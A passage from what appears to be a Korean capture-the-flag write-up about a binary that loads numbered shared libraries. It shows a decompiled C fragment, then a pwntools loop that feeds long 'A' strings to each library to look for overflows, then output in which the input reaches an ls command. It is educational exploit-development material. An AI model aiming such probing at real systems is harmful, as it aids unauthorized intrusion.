   ```c
    }
    else
    {
      v3 = dlerror();
      fprintf(stderr, "Error: %s\n", v3);
      result = 1LL;
    }
    return result;
  }
  ```

  

- 해당 libc_%d.so를 가져와 test함수를 실행시키는 방식이므로 아래와 같은 간단한 python 코드를 작성해 Bof와 같은 취약점이 존재하는지 확인해봤다.

  ```python
  from pwn import *
  
  for i in range(1, 20001):
      con = process("./20000")
      con.sendlineafter("INPUT : ", str(i))
      con.sendlineafter("file?", "A" * 0x1000)
      con.interactive()
  ```

  ```bash
  [+] Starting local process './20000': pid 21041
  [*] Switching to interactive mode
  
  [*] Process './20000' stopped with exit code 0 (pid 21041)
  [*] Got EOF while reading in interactive
  $
  [*] Got EOF while sending in interactive
  [+] Starting local process './20000': pid 21045
  [*] Switching to interactive mode
  
  [*] Process './20000' stopped with exit code 0 (pid 21045)
  [*] Got EOF while reading in interactive
  $
  [*] Got EOF while sending in interactive
  [+] Starting local process './20000': pid 21049
  [*] Switching to interactive mode
  
  [*] Got EOF while reading in interactive
  $
  [*] Process './20000' stopped with exit code 0 (pid 21049)
  [*] Got EOF while sending in interactive
  [+] Starting local process './20000': pid 21053
  [*] Switching to interactive mode
  
  [*] Got EOF while reading in interactive
  $
  [*] Process './20000' stopped with exit code 0 (pid 21053)
  [*] Got EOF while sending in interactive
  [+] Starting local process './20000': pid 21057
  [*] Switching to interactive mode
  
  ls: cannot access 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@': No such file or directory
  [*] Process './20000' stopped with exit code 0 (pid 21057)
  [*] Got EOF while reading in interactive
  $
  ```
